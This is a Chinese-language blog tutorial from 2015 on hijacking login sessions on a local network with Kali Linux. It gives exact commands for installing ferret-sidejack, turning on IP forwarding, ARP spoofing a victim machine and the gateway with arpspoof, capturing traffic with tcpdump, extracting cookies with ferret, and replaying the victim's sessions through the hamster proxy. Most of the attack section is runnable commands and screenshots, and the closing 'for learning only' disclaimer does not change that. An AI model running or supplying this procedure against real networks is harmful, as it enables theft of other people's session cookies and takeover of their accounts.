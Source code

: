 title: kali利用Arpspoof、tcpdump、ferret和hamster劫持登录会话
date: 2015-03-25 15:08:23
tags: 
- kali
- 渗透测试
categories: 渗透测试
---
上篇博客讲解了ARP欺骗的原理<http://huirong.github.io/2015/03/25/arp/>，不懂的可以自行google，网上有很多教程。
这次讲解利用ARP欺骗劫持登录会话
<!-- more -->
# I、环境
## ① 拓扑环境
- 攻击机：Kali Linux IP：192.168.1.118
- 受害机：Win7   IP：192.168.1.131
- 网关IP：192.168.1.1
- 攻击工具：arpspoof、tcpdump、ferret、hamster
前三款工具已经集成在Kali中了，ferret需要手动安装
## ② 安装ferret
首先kali 64bit默认不安装ferret，需要自己解决。我之前是apt-get install ferret安装的，执行后会弹出一个对话框，也无法生成hamster.txt，费解多时，因为此ferret非我们需要的ferret。
1. 修改source.list中的内容，如下所示：
```
## Regular repositories
deb http://http.kali.org/kali kali main non-free contrib
deb http://security.kali.org/kali-security kali/updates main contrib non-free
## Source repositories
deb-src http://http.kali.org/kali kali main non-free contrib
deb-src http://security.kali.org/kali-security kali/updates main contrib non-free
```
2. 添加对32为的支持
```
dpkg --add-architecture i386
```
3. 更新
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
```
4. 先删除原来的ferret
```
aptitude remove ferret
```
5. 安装我们需要的feret
```
aptitude install ferret-sidejack:i386
```
# II、开始攻击
## ① 打开路由转发
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```
linux下开启路由转发功能，可以让linux机器作为一个路由器来工作，将受害主机的数据包发送给网关。如果不开启此功能，受害主机的将会断网，这就是ARP断网攻击。
系统重启后，恢复原来的配置，只是临时生效
## ② ARP欺骗
```
arpspoof -i wlan0 -t 192.168.1.131 192.168.1.1
```
欺骗受害主机192.168.1.131，网关192.168.1.1的MAC地址是攻击机的MAC地址，那么在局域网内，受害主机发送给网关的数据包，都会发送给攻击机
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1eqi3adliqnj30ki0duwi5.jpg)
## ③ 抓取本地数据包
重新打开一个终端，输入：
```
tcpdump -i wlan0 -w hello.cap
```
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1eqi2xbwlwwj30kf0dq75p.jpg)
将抓取到的数据保存到hello.cap文件中
## ④ 耐心等待。。。
此时，需要等待受害主机登录摸个网站，或刷新已经登录过的页面
相当于受害在想网关发送携带了cookie的数据包，我们就是要劫持这个cookie
当刷新完毕后，就可以结束 arpspoof 和 tcpdump
## ⑤ 使用ferret分析抓取的数据包
```
ferret -r hello.cap
```
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1eqi3mc4oycj30kh0dodjl.jpg)
查看根目录，会发现自动生成了hamster.txt文件
## ⑥ hamster架设代理，登录会话
在终端输入
```
hamster
```
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1eqi3mc4oycj30kh0dodjl.jpg)
设置浏览器代理
![](http://ww1.sinaimg.cn/large/005CA6ZCjw1eqi2yqbc8mj30f40iadhm.jpg)
打开hamster
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1eqi2z18sdfj311x0dqtch.jpg)
点击192.168.1.131
左边就是获取的cookie信息，找到合适的，就可以看到受害者的登录信息
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1eqi3096wd6j30m807sdi2.jpg)

OK，攻击完毕啦，本教程仅做学习用途~~~~~~~~~
# III、参考文献
[局域网安全 利用ARP欺骗劫持Cookie](http://www.it165.net/safe/html/201501/1025.html)
[linux开启路由转发功能](http://yuangeqingtian.blog.51cto.com/6994701/1302773)
